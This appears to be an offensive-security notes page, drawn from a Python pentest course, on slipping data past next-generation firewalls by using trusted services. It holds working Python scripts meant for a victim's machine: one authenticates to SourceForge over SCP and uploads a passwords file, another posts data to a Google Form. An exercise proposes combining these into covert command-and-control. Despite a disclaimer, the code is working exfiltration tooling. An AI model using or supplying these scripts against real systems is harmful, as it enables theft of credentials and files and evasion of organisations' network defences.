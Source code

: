```yaml
---
title: Bypassing Next Generation Firewalls
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Bypassing Next Generation Firewalls

Corporate firewall (Next Generation Firewalls) can block traffic based on the reputation of the target IP/url. This means that once we achieve to execute the malicious client side script on the victim's machine, this next generation firewall might block/defer the connection if the reputation or the rank of the target URL/IP belongs to a pool of resources supplied by the vendor and it's categorized as low.

To overcome this filter, modern malware is using trusted targets.

## Using Source Forge for data exfiltration

**1.** Signup in Source Forge

You will get credentials for configuring your SFTP agent in step 3.


**2.** Install filezilla. It will work as our SFTP agent: 

```bash
sudo apt-get install filezilla
```

**3.** Configure filezilla and connect.
```
Host: web.sourceforge.net
username: usernameinSourceForge
password: passwordinSourceForge
port: 22
```

**4.** Install these two python libraries on the victim's machine: paramiko and scp.

```
pip install paramiko
pip install scp
```

**5.** Run the script on the victim's machine:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read SourceForge terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import paramiko
import scp

# File Management on SourceForge 
# [+] https://sourceforge.net/p/forge/documentation/File%20Management/


ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="myusernameatSourceForge", password="PASSWORD HERE") #Authenticate ourselves to the sourceforge. Server, user and password from step 1
print ("[+] Authenticating against web.sourceforge.net")

scp = scp.SCPClient(ssh_client.get_transport()) #after a sucessful authentication the ssh session id will be passed into SCPClient function

scp.put("C:/Users/Alex/Desktop/passwords.txt") # upload a file, for instance password.txt
print ("[+} File is uploaded")

scp.close()

print("[+] Closing the socket")

```

## Using Google Forms for submitting output

**1.** Create a Google Form with a quick test and copy the link of the survey.

**2.** Copy the name of the form from the source code of the google form.

![name of the form](../img/google-form.png)

**3.** Paste URL of the survey +  name of the form in the script:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2



import requests

url = 'https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse'

form_data = {'entry.1301128713':'Lets see how we can use this, in the next exercise'}

r = requests.post(url, data=form_data)

# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```


### Exercise 

```
Try to combine the above ideas (Google Form + Twitter + SourceForge) Into a single script and see if you can control your target without direct interaction.
```
